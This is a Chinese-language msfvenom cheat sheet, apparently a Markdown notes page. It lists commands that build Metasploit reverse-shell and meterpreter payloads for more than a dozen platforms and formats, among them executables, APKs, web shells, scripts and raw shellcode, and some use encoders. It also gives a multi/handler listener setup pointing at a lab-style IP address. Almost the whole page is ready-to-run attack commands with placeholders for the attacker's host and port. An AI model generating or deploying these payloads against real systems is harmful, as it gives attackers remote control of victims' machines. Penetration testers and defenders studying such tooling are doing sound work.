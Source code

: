 ```yaml
---
title: msfvenom-生成攻击载荷-命令速查
categories:
- tools
tags:
- tools
---
```


参考资料：
- github-Micro8
- https://github.com/rapid7/metasploit-framework/wiki/Metasploit-5.0-Release-Notes
- https://www.hackers-arise.com/single-post/2017/06/08/Metasploit-Basics-Part-7-Adding-a-New-Module-EternalBlue

msfvenom -l payload 列出所有可用载荷

截至2019.3.4日，msf的版本为：metasploit v5.0.9-dev

| 命令 | 之前 | 现在 |
|---|---|---|
| 更新 | msfupdate | apt update; apt install metasploit-framework |
|handler监听| 命令1 | handler -H 10.10.14.7 -P 6678 -p linux/x86/meterpreter/reverse_tcp |
|添加exploit | 命令2 | 命令3 |

命令1：
msfconsole -r job.rc

```
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 10.10.14.7
set LPORT 7766
run
```

命令2：`新建/root/.msf4/modules/exploits/new/xx.rb`

命令3: `新建usr/share/metasploit-framework/modules/exploits/unix/webapp/xx.rb`

>reload_all 
当载入新的metasploit 插件/payload，不用重启metasploit。

## windows:
```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=
攻击机IP LPORT=攻击机端口 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 3 -f exe -o
payload.exe
```
## mac:
```
msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=攻击机IP
LPORT=攻击机端口 -f macho -o payload.macho
```
## android:
```
msfvenom -a x86 --platform Android -p android/meterpreter/reverse_tcp LHOST=攻
击机IP LPORT=攻击机端口 -f apk -o payload.apk
```
## powershell:
```
msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=
攻击机IP LPORT=攻击机端口 -e cmd/powershell_base64 -i 3 -f raw -o payload.ps1
```
## linux:
```
msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f elf -o payload.elf
```
## php:
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=
<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >>
shell.php
```
## aspx:
```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=
攻击机IP LPORT=攻击机端口 -f aspx -o payload.aspx
```
## jsp:
```
msfvenom --platform java -p java/jsp_shell_reverse_tcp LHOST=攻击机IP LPORT=攻
击机端口 -f raw -o payload.jsp
```
## war:
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -
o payload.war
```
## nodejs:
```
msfvenom -p nodejs/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o
payload.js
```
## python:
```
msfvenom -p python/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -
f raw -o payload.py
```
## perl:
```
msfvenom -p cmd/unix/reverse_perl LHOST=攻击机IP LPORT=攻击机端口 -f raw -o
payload.pl
```
## ruby:
```
msfvenom -p ruby/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o
payload.rb
```
## lua:
```
msfvenom -p cmd/unix/reverse_lua LHOST=攻击机IP LPORT=攻击机端口 -f raw -o
payload.lua
```
## windows shellcode:
```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=
攻击机IP LPORT=攻击机端口 -f c
```
## linux shellcode:
```
msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=攻
击机IP LPORT=攻击机端口 -f c
```
## mac shellcode:
```
msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=攻击机IP
LPORT=攻击机端口 -f c
```
